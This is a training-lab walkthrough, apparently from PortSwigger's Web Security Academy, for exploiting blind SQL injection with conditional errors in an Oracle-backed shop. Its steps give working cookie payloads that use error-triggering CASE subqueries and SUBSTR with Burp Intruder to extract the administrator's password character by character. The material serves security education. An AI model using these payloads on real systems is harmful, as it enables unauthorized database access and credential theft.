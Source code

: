 # Lab: Blind SQL injection with conditional errors

### PRACTITIONER

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

```
Hint
```
This lab uses an Oracle database. For more information, see the [SQL injection cheat sheet][https://portswigger.net/web-security/sql-injection/cheat-sheet].

### Solution

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the <code>TrackingId</code> cookie. For simplicity, let's say the original value of the cookie is <code>TrackingId=xyz</code>.

2. Modify the <code>TrackingId</code> cookie, appending a single quotation mark to it: <code>TrackingId=xyz'</code>. Verify that an error message is received.

3. Now change it to two quotation marks: <code>TrackingId=xyz''</code>. Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.

4. You now need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting: <code>TrackingId=xyz'||(SELECT '')||'</code>. In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query: <code>TrackingId=xyz'||(SELECT '' FROM dual)||'</code>. As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all <code>SELECT</code> statements to explicitly specify a table name.

5. Now that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name: <code>TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'</code>. This time, an error is returned. This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.

6. As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the <code>users</code> table exists, send the following query: <code>TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'</code>. As this query does not return an error, you can infer that this table does exist. Note that the <code>WHERE ROWNUM = 1</code> condition is important here to prevent the query from returning more than one row, which would break our concatenation.

7. You can also exploit this behavior to test conditions. First, submit the following query: <code>TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'</code>. Verify that an error message is received.

8. Now change it to: <code>TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'</code>. Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The <code>CASE</code> statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions <code>1=1</code> and <code>1=2</code>, and an error is received when the condition is <code>true</code>.

9. You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username <code>administrator</code> exists: <code>TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>. Verify that the condition is true (the error is received), confirming that there is a user called <code>administrator</code>.

10. The next step is to determine how many characters are in the password of the <code>administrator</code> user. To do this, change the value to: <code>TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)&gt;1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>. This condition should be true, confirming that the password is greater than 1 character in length.

11. Send a series of follow-up values to test different password lengths. Send: <code>TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)&gt;2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>. Then send: <code>TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)&gt;3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>. And so on. You can do this manually using <a href="/burp/documentation/desktop/tools/repeater">Burp Repeater</a>, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.

12. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use <a href="/burp/documentation/desktop/tools/intruder">Burp Intruder</a>. Send the request you are working on to Burp Intruder, using the context menu.

13. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.

14. In the Positions tab, change the value of the cookie to: <code>TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>. This uses the <code>SUBSTR()</code> function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

15. Place payload position markers around the final <code>a</code> character in the cookie value. To do this, select just the <code>a</code>, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers): <code>TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>

16. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

17. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.

18. Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with 500 in this column. The payload showing for that row is the value of the character at the first position.

19. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: <code>TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>

20. Launch the modified attack, review the results, and note the character at the second offset.

21. Continue this process testing offset 3, 4, and so on, until you have the whole password.

22. In your browser, click "My account" to open the login page. Use the password to log in as the <code>administrator</code> user.
